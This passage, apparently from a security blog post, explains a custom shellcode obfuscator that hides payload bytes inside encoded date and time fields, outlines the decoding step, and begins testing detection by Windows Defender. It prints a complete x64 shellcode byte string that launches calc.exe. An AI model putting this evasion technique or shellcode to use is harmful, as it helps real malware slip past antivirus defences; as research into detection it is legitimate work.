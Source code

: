 In general, the valid values for each field are contained in `(min,..,max)`, where min and max cannot be used.

### Obfuscation fields

#### Hour
**Original value (0-24)**: To fit within the 23-hour range, the hour field is `XORed` with `threshold = max/2 = 24/2 = 12`.

#### Minute
**Original value (0-60)**: To fit within the 59-minute range, the hour field is `XORed` with `threshold = max/2 = 60/2 = 30`.

#### Second
**Original value (0-60)**: Similar to minute, the same applies to second.

#### Day
**Original value (0–31)**: Days must be in the range 1–31, **but to avoid checking candelar months** (*to do additional checks on whther a month can be 31 or at max 30*), we avoid using 31 at all. So to fit within the 30-days range, the day field is `XORed` with `threshold = max/2 = 30/2 = 15`.

#### Month
**Original value (0–13)**: To comply with valid months (1–12), same logic is followed.

#### Year
**Original value (N/A)**: For the year, there is no specific constrain, besides not very big values like 2800 or small values like 1500, so I used as **year base** the year 1990 (cause I love nineties) and since year is only 2^6, the maximum year number we might get is 1990+2^6 = 1990 + 64, which is fine.

## Decoding Process
The decoder reverses each transformation in strict order, guided by the Region metadata. We start recovering our bits by starting to reverse the operations that took place starting from the last one and moving towards the first one (basically follow the flow graph from end to start).  
Each field is transformed back to its original binary string, and then all the bits are concatenated and converted back into bytes.  

Let's review a demo of the final script:  

![](/posts/customshellcodeobfuscator/demo.png)  

we see that everything works as planned and we get our original shellcode after the decoding phase.  
Now it is time for some actual shellcode execution and detection rate evaluation:D

## Detection rates

### Having the shellcode hardcoded
Just to see what the Windows Defender thinks of the calc.exe spawning shellcode, I hardcoded it to my script, passing it as a formatted string when the `.c` template is being written:  
```c
original = b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00"

```